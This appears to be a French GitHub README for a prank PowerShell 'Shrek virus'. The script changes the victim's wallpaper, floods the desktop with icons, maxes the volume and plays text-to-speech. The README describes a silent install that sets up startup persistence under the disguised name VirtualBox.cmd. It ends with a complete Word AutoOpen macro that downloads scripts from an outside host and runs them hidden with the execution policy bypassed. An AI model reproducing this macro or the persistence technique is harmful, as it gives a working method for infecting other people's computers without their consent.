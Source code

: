 # powershell-shrek-virus

# Fonctionnalités
- Modification du fond d'écran
- Ajout d'icônes Shrek sur le Bureau Windows
- Nom aléatoire des icônes Shrek
- Augmentation du volume de l'ordinateur
- Voix TTS


# Démonstration
![image](https://user-images.githubusercontent.com/73076854/221158845-0a091360-1907-432c-b3fd-3ecad0976cc6.png)

# Prérequie
- Pour le bon fonctionnement du script Powershell, le nom du fichier ne doit pas être modifier !
- Windows à jours
- L'environnement Bureau de la victime ne doit pas etre sur OneDrive

# Installation
- Télécharger ce dépôt
```
git clone https://github.com/WolfAnto/powershell-shrek-virus/
Sinon via interface graphique
```
- Execution du script
```
Clique droit sur ShrekMenu.ps1 > Exécuter en Powershell
```


# Explication / Fonctionnement

Le script est un menu Powershell qui vous propose diverse options :
- Installation Silencieuse
- Mode Flagrant
- Seulement le fond d'écran
- Seulement les icônes
- Seulement la voix TTS
- Seulement la notification Windows
- Désinstallation du script sur la machine
- Quitter le script

### Installation Silencieuse
- Lors de l'éxécution de cette option, le script va télécharger un script Powershell et venir l'installer dans le répertoire "C:\Users\Public\Documents"
- Ensuite le script va télécharger un script CMD et l'installer dans "C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd"
- Cela va permettre d'installer le script Powershell sur la machine mais aussi l'éxecuter lors du démarrage de l'ordinateur.


### Mode Flagrant
- Lors de l'éxécution de cette option, le script va s'éxécuter instentanément et il va définir un nouveau fond d'écran, créer un nombre prédéfinis d'icones sur le bureau avec un nom aléatoire, et faire une installation silencieuse.

### Seulement le fond d'écran
- Lors de l'éxécution de cette option, le script va uniquement changer le fond d'écran de l'ordinateur.

### Seulement les icônes
- Lors de l'éxécution de cette option, le script va vous demandez combien d'icônes souhaitez vous créer sur le Bureau Windows.

###  Seulement la voix TTS
- Lors de l'éxécution de cette option, le script va augmenter le volume de l'ordinateur au maximum et utiliser la fonction Text To Speach pour citez une phrase.

### Seulement la notification Windows
- Lors de l'éxécution de cette option, le script va utiliser une fonction Windows pour faire apparaitre une notification en bas de l'écran avec une phrase prédéfini.

### Désinstallation du script sur la machine
- Lors de l'éxécution de cette option, le script va supprimer les traces du script, changer le fond d'écran, supprimer les icônes du Bureau Windows, et ne plus s'éxecuter lors du démarrage

### Quitter
- Lors de l'éxécution de cette option, le script va se fermer.

# Modification
Si vous souhaitez changer le fond d'écran, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 72 et remplacer le code base64 par le votre

Si vous souhaitez changer l'icône, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 84 et remplacer le code base64 par le votre

# Execution dans Microsoft Word
Cliquez sur "Affichage" dans la barre de menu, puis sélectionnez "Macro" et "Afficher les macros".
![image](https://user-images.githubusercontent.com/73076854/229302792-6a42a8c6-ec6b-4414-8739-350b8d2471af.png)

Créer une macro au nom de "AutoOpen" et cliquer sur "Créer".
![image](https://user-images.githubusercontent.com/73076854/229302829-9fe69643-843f-4a45-b6e8-1746b3e586f5.png)

Une fenetre va apparaitre, remplacer le code par le suivant :
```
Sub AutoOpen()
    Dim objShell
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/ShrekVirus.ps1' -OutFile 'C:\Users\Public\Documents\ShrekVirus.ps1'"""
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/VirtualBox.cmd' -OutFile '$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd'"""
    objShell.Run "powershell.exe -windowstyle hidden -executionpolicy bypass -file C:\Users\Public\Documents\ShrekVirus.ps1"
    Set objShell = Nothing

End Sub
```

Avant :
![image](https://user-images.githubusercontent.com/73076854/229302907-62297027-0b41-496f-b0e1-c90cdcf678f0.png)

Après :
![image](https://user-images.githubusercontent.com/73076854/229302921-ce845dd1-65f2-4891-babd-69e213ec4e15.png)

Enregistrer le code avec les touches CTRL + S, puis quitter la fenêtre.
Enregistrer le document Word avec les touches CTRL + S, puis quitter le document.
